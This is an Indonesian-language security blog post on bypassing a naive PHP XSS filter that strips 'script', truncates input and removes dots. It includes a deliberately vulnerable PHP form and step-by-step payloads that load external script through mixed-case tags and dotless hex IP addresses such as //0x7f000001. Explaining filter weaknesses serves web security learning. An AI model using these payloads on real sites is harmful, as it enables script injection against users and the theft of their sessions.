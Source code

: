 ```yaml
---
title: "XSS Tanpa Titik (dot-less)"
date: "2019-02-21"
tags: ['Security']
---
```


**XSS Tanpa Titik** - Kali ini saya akan menjelaskan sedikit tentang filter yang biasa digunakan untuk menangani XSS. Namun, ada yang lebih unik, yaitu filter karakter dots (`.`) dan cara mem-bypass filter tersebut.

Sebelum melanjutkan, silahkan baca [Disclaimer](https://akbar.kustirama.id/disclaimer/) terlebih dahulu. Jika kamu setuju dengan pernyataan disana, silahkan melanjutkan membaca :D

### Beberapa Contoh Filter XSS

Pertama, kita memiliki target yang memfilter kata **script**. Namun, filter ini tidak dilakukan dengan cara **case-insensitive**, yang tentunya masih mudah untuk dibypass. Sebagai contoh:

`$data = str_replace('script', '' , $data);`

Dalam hal ini, dengan menggunakan **ScRiPt**, kita sudah mem-bypass filter tersebut.

Selanjutnya, ada batasan panjang karakter. Meskipun ini sudah dibahas di beberapa Cheatsheet XSS, tapi ini masih sesuatu yang harus diperhitungkan saat melakukan tes. Sebagai contoh:

`$data = substr($data, 0, 50);`

Yang terakhir tapi tidak kalah penting adalah filter untuk titik. Dalam hal ini, aplikasi mencegah muatan seperti **abay.now.sh**. Sebagai contoh:

`$data = str_replace('.', '', $data);`

### Contoh Vulnerable Code

```php
<?php
error_reporting(0);
function xss_clean($data)
{
    $data = str_replace('script', '' , $data);
    $data = substr($data, 0, 50);
    $data = str_replace('.', '', $data);
    // $data = strtoupper($data);
    return $data;
}
?>
<html>
	<head>
		<title>Vulnerable to Dotless XSS</title>
	</head>
	<body>
		Vulnerable form:
		<form>
			<input type="text" value="<?php echo xss_clean($_GET['value']); ?>" maxlength="50">
			<button type="submit">Submit</button>
		</form>
		<script>
			console.log("This is my logger function (I'll need this closing script tag later)!");
		</script>
	</body>
</html>
```

### XSS Tanpa Titik

Berdasarkan serangan Short XSS biasa, payload kita akan terlihat seperti ini:

`value="><script src=//abay.now.sh>`

Pertama, kita perlu mengonversi tag `script` menjadi [camel-case](https://www.computerhope.com/jargon/c/camelcas.htm).

`value="><ScRiPt src=//abay.now.sh>`

Sampai disini kita sudah memenuhi persyaratan (filter) batas panjang karakter, jadi kita tidak perlu khawatir tentang filter itu.

**_Sayangnya kita belum mem-bypass filter terakhir._**

**Metode termudah adalah dengan menggunakan nama host di jaringan internal**. Jika kamu memasang payload pada localhost dan mengaksesnya hanya menggunakan nama host, maka kamu bisa mengatasi filter ini.

`value="><ScRiPt src=//localhost>`

Script dari aplikasi web yang mengandung **src** kita arahkan ke **localhost** saya dengan payload yang sudah tertanam di dalamnya. Sehingga hasil akhirnya akan menjadi seperti ini:

`<input type="``text``" value=""><ScRiPt src=//localhost>" maxlength="50">`

![XSS Tanpa Titik](images/dotless-1024x490.png)

Namun pada beberapa waktu pasti ada saat dimana kita tidak bisa mengendalikan nama host di jaringan internal. Dalam hal ini, saya harus melakukan beberapa tipu daya lagi.

Bagi kamu yang belum tahu, kamu dapat me-[*represent*](https://en.wikipedia.org/wiki/IPv4#Address_representations) alamat IP dalam berbagai cara. Termasuk dot-desimal (standar), desimal, oktal, dan hex. Tiga yang terakhir tidak memerlukan titik sama sekali, itulah yang akan saya gunakan kali ini!

Tenang, tidak perlu mengonversi secara manual, kita bisa menggunakan [IP Manipulator](https://github.com/joshuaskorich/IP-Manipulator).

```
abay@codelatte:~$ ./ip.py 127.0.0.1

        IP Address Manipulator       
-------------------------------------
127.0.0.1 ----> 127.0.0.1
127.0.0.1 ----> 127.0.1
127.0.0.1 ----> 127.1
127.0.0.1 ----> 2130706433
127.0.0.1 ----> 0x7f.0x0.0x0.0x1
127.0.0.1 ----> 0x7f.0x0.0x1
127.0.0.1 ----> 0x7f.0x1
127.0.0.1 ----> 0x7f000001
127.0.0.1 ----> 0177.0.0.01
127.0.0.1 ----> 0177.0.01
127.0.0.1 ----> 0177.01
127.0.0.1 ----> 017700000001
```

*IP 127.0.0.1 kalian ganti dengan IP tempat kalian menyimpan payload XSS*

Sekarang, saya mempunyai alamat IP untuk **127.0.0.1** tanpa titik, jadi mari kita coba.

`"><ScRiPt SRC=//0x7f000001>" maxlength="50">`

Payload nya berjalan sempurna :D

![XSS Tanpa Titik](images/dotless-2-1024x485.png)

### Penutup

Meskipun ini sedikit skenario yang dibuat-buat, filter seperti masih menjadi sesuatu yang bisa atau mungkin sering ditemukan di dunia nyata. Filter XSS tidak selalu sempurna, dan beberapa teknik menarik terkadang dapat memintasinya.

Kali ini kita bisa melewati filter kata **script**, pembatasan panjang karakter dan membuat payload XSS tanpa titik (dotless). Selain itu, payload tersebut di-host secara eksternal dan kita tetap bisa melakukan XSS dengan itu. Terima kasih sudah membaca tulisan saya :D
